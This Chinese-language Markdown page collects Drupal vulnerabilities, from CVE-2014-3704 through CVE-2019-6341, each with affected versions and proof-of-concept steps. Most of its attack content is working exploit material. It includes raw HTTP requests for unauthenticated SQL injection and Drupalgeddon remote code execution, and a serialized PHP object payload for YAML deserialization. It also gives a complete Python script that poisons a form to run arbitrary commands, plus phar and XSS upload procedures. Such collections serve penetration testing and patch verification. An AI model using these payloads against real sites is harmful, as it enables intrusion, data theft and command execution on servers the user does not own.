



# Drupal 漏洞集合


Drupal 是一个灵活的，基于 LAMP 技术栈的 CMS，它的模块化设计，允许通过安装和卸载模块的方式 添加和移除功能，同时，允许通过安装和卸载主题改变整个网站的视觉感观。Drupal 还可以运行在其他技术栈上：

- 除了 Linux，操作系统还可以是 Windows 或 Mac OS。
- Web 服务器可以用 Nginx 或 IIS，替代 Apache。
- 数据库可以用 PostgreSQL 或 SQLite，替代 MySQL，或者其他兼容 MySQL 的数据库 比如 MariaDB 或 Percona。

其他的操作系统，Web 服务器，数据库也可以让它工作。但是，编写它的 PHP 脚本语言，这一点是不变的。

## CVE-2014-3704

Drupal 7.x - 7.32 之前的数据库抽象 API 中的 `expandArguments` 函数没有正确构造 `prepared statements`，这使得远程攻击者可以通过包含特制键的数组进行 SQL 注入攻击。

- [x] Drupal 7.x - 7.32

### PoC

SQL 注入不需要身份验证，可以通过发送如下请求执行恶意 SQL 语句。

```http hl_lines="1 11"
POST /?q=node&destination=node HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 120

pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,user()),0)%23]=bob&name[0]=a
```

可替换 payload 中的 `user()` 为 `database()`，获取数据库名。

### Ref

- [CVE-2014-3704 - cvedetails](https://www.cvedetails.com/cve/CVE-2014-3704/)

## CVE-2017-6920

这是 Drupal Core 的 YAML 解析器处理不当所导致的一个远程代码执行漏洞。

- [x] Drupal < 8.3.4

### PoC

启明星辰 ADLab 通过对本漏洞的深度分析，构造了任意无参数函数的 POC 并测试验证成功，具体验证情况如下：

第一步：序列化一个`GuzzleHttp\Psr7\FnStream`类, 因为序列化后的字符串可能带有不可显示字符，所以采用把结果写入到文件的方式，序列化后的字符串如下：

```
O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}
```

第二步：给该序列化字符串加上 yaml 的`!php/object tag`(注意一定要转义)，最后得到的字符串如下：

```
!php/object "O:24:\"GuzzleHttp\\Psr7\\FnStream\":2:{s:33:\"\0GuzzleHttp\\Psr7\\FnStream\0methods\";a:1:{s:5:\"close\";s:7:\"phpinfo\";}s:9:\"_fn_close\";s:7:\"phpinfo\";}"
```

第三步：登录一个管理员账号，访问如下 URL: http://127.0.0.1:8080/admin/config/development/configuration/single/import ，然后我们进行如图所示的操作：



点击 Import 后可以看到漏洞触发成功，弹出 `phpinfo` 页面。


### Ref

- [CVE-2017-6920 - cvedetails](https://www.cvedetails.com/cve/CVE-2017-6920/)
- [CVE-2017-6920:Drupal 远程代码执行漏洞分析及 POC 构造 - Seebug](https://paper.seebug.org/334/)

## CVE-2018-7600

7.58 之前的 Drupal、8.3.9 之前的 8.x、8.4.6 之前的 8.4.x 和 8.5.1 之前的 8.5.x 允许远程攻击者执行任意代码，因为一个问题会影响具有默认或通用模块配置的多个子系统。

- [x] Drupal < 7.58
- [x] Drupal 8.x < 8.3.9
- [x] Drupal 8.4.x < 8.4.6
- [x] Drupal 8.5.x < 8.5.1

### PoC

```http hl_lines="1 11"
POST /user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax HTTP/1.1
Host: your-ip:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 103

form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id
```

### Ref

- [a2u/CVE-2018-7600 - Github](https://github.com/a2u/CVE-2018-7600/blob/master/exploit.py)
- [CVE-2018-7600 - cvedetails](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2018-7600)
- [云鼎实验室：Drupal CVE-2018-7600 分析及 PoC 构造 - Seebug](https://paper.seebug.org/567)

## CVE-2018-7602

Drupal 7.x 和 8.x 的多个子系统中存在远程代码执行漏洞。这可能会允许攻击者在 Drupal 站点上利用多个攻击媒介，从而可能导致该站点遭到破坏。该漏洞与 Drupal core - Highly critical - Remote Code Execution - SA-CORE-2018-002 有关。 SA-CORE-2018-002 和此漏洞都在野外被利用。

- [x] Drupal 7.x
- [x] Drupal 8.x

### PoC

```bash hl_lines="1 11"
# "id"为要执行的命令 第一个drupal为用户名 第二个drupal为密码
python3 drupa7-CVE-2018-7602.py -c "id" drupal drupal http://127.0.0.1:8081/
```

```python title="drupa7-CVE-2018-7602.py"
#!/usr/bin/env python3

import requests
import argparse
from bs4 import BeautifulSoup

def get_args():
  parser = argparse.ArgumentParser( prog="drupa7-CVE-2018-7602.py",
                    formatter_class=lambda prog: argparse.HelpFormatter(prog,max_help_position=50),
                    epilog= '''
                    This script will exploit the (CVE-2018-7602) vulnerability in Drupal 7 <= 7.58
                    using an valid account and poisoning the cancel account form (user_cancel_confirm_form)
                    with the 'destination' variable and triggering it with the upload file via ajax (/file/ajax).
                    ''')

  parser.add_argument("user", help="Username")
  parser.add_argument("password", help="Password")
  parser.add_argument("target", help="URL of target Drupal site (ex: http://target.com/)")
  parser.add_argument("-c", "--command", default="id", help="Command to execute (default = id)")
  parser.add_argument("-f", "--function", default="passthru", help="Function to use as attack vector (default = passthru)")
  parser.add_argument("-x", "--proxy", default="", help="Configure a proxy in the format http://127.0.0.1:8080/ (default = none)")
  args = parser.parse_args()
  return args

def pwn_target(target, username, password, function, command, proxy):
  requests.packages.urllib3.disable_warnings()
  session = requests.Session()
  proxyConf = {'http': proxy, 'https': proxy}
  try:
    print('[*] Creating a session using the provided credential...')
    get_params = {'q':'user/login'}
    post_params = {'form_id':'user_login', 'name': username, 'pass' : password, 'op':'Log in'}
    print('[*] Finding User ID...')
    session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
    get_params = {'q':'user'}
    r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
    soup = BeautifulSoup(r.text, "html.parser")
    user_id = soup.find('meta', {'property': 'foaf:name'}).get('about')
    if ("?q=" in user_id):
      user_id = user_id.split("=")[1]
    if(user_id):
      print('[*] User ID found: ' + user_id)
    print('[*] Poisoning a form using \'destination\' and including it in cache.')
    get_params = {'q': user_id + '/cancel'}
    r = session.get(target, params=get_params, verify=False, proxies=proxyConf)
    soup = BeautifulSoup(r.text, "html.parser")
    form = soup.find('form', {'id': 'user-cancel-confirm-form'})
    form_token = form.find('input', {'name': 'form_token'}).get('value')
    get_params = {'q': user_id + '/cancel', 'destination' : user_id +'/cancel?q[%23post_render][]=' + function + '&q[%23type]=markup&q[%23markup]=' + command }
    post_params = {'form_id':'user_cancel_confirm_form','form_token': form_token, '_triggering_element_name':'form_id', 'op':'Cancel account'}
    r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
    soup = BeautifulSoup(r.text, "html.parser")
    form = soup.find('form', {'id': 'user-cancel-confirm-form'})
    form_build_id = form.find('input', {'name': 'form_build_id'}).get('value')
    if form_build_id:
        print('[*] Poisoned form ID: ' + form_build_id)
        print('[*] Triggering exploit to execute: ' + command)
        get_params = {'q':'file/ajax/actions/cancel/#options/path/' + form_build_id}
        post_params = {'form_build_id':form_build_id}
        r = session.post(target, params=get_params, data=post_params, verify=False, proxies=proxyConf)
        parsed_result = r.text.split('[{"command":"settings"')[0]
        print(parsed_result)
  except:
    print("ERROR: Something went wrong.")
    raise

def main():
  print ()
  print ('===================================================================================')
  print ('|   DRUPAL 7 <= 7.58 REMOTE CODE EXECUTION (SA-CORE-2018-004 / CVE-2018-7602)     |')
  print ('|                                   by pimps                                      |')
  print ('===================================================================================\n')

  args = get_args() # get the cl args
  pwn_target(args.target.strip(),args.user.strip(),args.password.strip(), args.function.strip(), args.command.strip(), args.proxy.strip())


if __name__ == '__main__':
  main()
```

### Ref

- [pimps/CVE-2018-7600 - Github](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7602.py)
- [CVE-2018-7602 - cvedetails](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2018-7602)

## CVE-2019-6339

在 7.62 之前的 Drupal Core 版本 7.x、8.6.6 之前的 8.6.x 和 8.5.9 之前的 8.5.x 中；当对不受信任的 phar:// URI 执行文件操作时，PHP 的内置 phar 流包装器中存在远程代码执行漏洞。一些 Drupal 代码（核心、贡献和自定义）可能对未充分验证的用户输入执行文件操作，从而暴露于此漏洞。由于此类代码路径通常需要访问管理权限或非典型配置，因此可以缓解此漏洞。

- [x] Drupal 7.x < 7.62
- [x] Drupal 8.5.x < 8.5.9
- [x] Drupal 8.6.x < 8.6.6

### PoC

如下图所示，先使用管理员用户上传头像，头像图片为构造好的 PoC，参考 [thezdi/PoC](https://github.com/thezdi/PoC/tree/master/Drupal) 的 PoC。



Drupal 的图片默认存储位置为 `/sites/default/files/pictures/<YYYY-MM>/`，默认存储名称为其原来的名称，所以之后在利用漏洞时，可以知道上传后的图片的具体位置。

访问 http://127.0.0.1:8080/admin/config/media/file-system ，在 Temporary directory 处输入之前上传的图片路径，示例为 `phar://./sites/default/files/pictures/2019-06/blog-ZDI-CAN-7232-cat_0.jpg`，保存后将触发该漏洞。如下图所示，触发成功。



### Ref

- [CVE-2019-6339 - cvedetails](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2019-6339)
- [thezdi/PoC](https://github.com/thezdi/PoC/tree/master/Drupal)

## CVE-2019-6341

在 7.65 之前的 Drupal 7 版本中； 8.6.13 之前的 Drupal 8.6 版本；8.5.14 之前的 Drupal 8.5 版本。在某些情况下，文件模块/子系统允许恶意用户上传可触发跨站点脚本 (XSS) 漏洞的文件。

- [x] Drupal 7.x < 7.65
- [x] Drupal 8.5.x < 8.5.14
- [x] Drupal 8.6.x < 8.6.13

### PoC

该漏洞需要利用 drupal 文件模块上传文件的漏洞，伪造一个图片文件，上传，文件的内容实际是一段 HTML 代码，内嵌 JS，这样其他用户在访问这个链接时，就可能触发 XSS 漏洞。

Drupal 的图片默认存储位置为 `/sites/default/files/pictures/<YYYY-MM>/`，默认存储名称为其原来的名称，所以之后在利用漏洞时，可以知道上传后的图片的具体位置。

使用 PoC 上传构造好的伪造 GIF 文件，PoC 参考 [thezdi/PoC](https://github.com/thezdi/PoC/tree/master/Drupal) 的 PoC。

如图，输入如下命令，即可使用 PoC 构造样本并完成上传功能，第一个参数为目标 IP 第二个参数为目标端口。

```php
php cve-2019-6341-exp.php 192.168.11.1 8080
```


上传成功后，访问图片位置，即可触发 XSS 漏洞，如下图所示。

Tips:

1. 因为 Chrome 和 FireFox 浏览器自带部分过滤 XSS 功能，所以验证存在时可使用 Edge 浏览器或者 IE 浏览器。
2. 访问的图片名称为 `_0` 的原因是因为 Drupal 的规则机制，具体原理见[Drupal 1-click to RCE 分析](https://paper.seebug.org/897/)

### Ref

- [CVE-2019-6341 - cvedetails](https://www.cvedetails.com/cve-details.php?t=1&cve_id=CVE-2019-6341)
- [thezdi/PoC](https://github.com/thezdi/PoC/tree/master/Drupal)